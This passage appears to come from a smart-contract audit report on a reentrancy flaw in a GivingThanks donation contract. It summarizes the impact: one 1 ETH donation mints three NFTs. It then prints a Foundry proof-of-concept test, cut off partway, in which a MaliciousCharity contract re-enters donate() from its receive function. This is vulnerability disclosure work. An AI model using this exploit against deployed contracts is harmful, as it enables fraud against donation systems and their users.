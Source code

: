 Through the successful proof of concept, we demonstrated that:

&#x20;

1. A single 1 ETH donation can mint 3 NFTs (original + 2 reentrant calls)
2. The cost per NFT is reduced to 0.33 ETH instead of 1 ETH
3. Multiple donation receipts are created for the same donation
4. The integrity of the donation tracking system is compromised



## Proof of Concept

The following test demonstrates the vulnerability:

```Solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "forge-std/console.sol";
import "../src/GivingThanks.sol";
import "../src/CharityRegistry.sol";
import "@openzeppelin/contracts/utils/Strings.sol";
import "@openzeppelin/contracts/utils/Base64.sol";

contract MaliciousCharity {
    GivingThanks private immutable givingThanks;
    uint256 public attackCount;
    uint256 public constant ATTACK_ROUNDS = 2;
    address public owner;

    constructor(address _givingThanks) {
        givingThanks = GivingThanks(_givingThanks);
        owner = msg.sender;
    }

    receive() external payable {
        if (attackCount < ATTACK_ROUNDS) {
            attackCount++;
            // Forward the same ETH back in a reentrant call
            givingThanks.donate{value: msg.value}(address(this));
        }
    }

    function withdrawEth() external {
        require(msg.sender == owner, "Not owner");
        (bool success, ) = payable(owner).call{value: address(this).balance}("");
        require(success, "Transfer failed");
    }

    function getAttackRounds() public pure returns (uint256) {
        return ATTACK_ROUNDS;
    }
}

contract GivingThanksTest is Test {
    GivingThanks public charityContract;
    CharityRegistry public registryContract;
    MaliciousCharity public maliciousCharity;
    
    address public admin;
    address public donor;
    uint256 public constant DONATION_AMOUNT = 1 ether;

    receive() external payable {}
```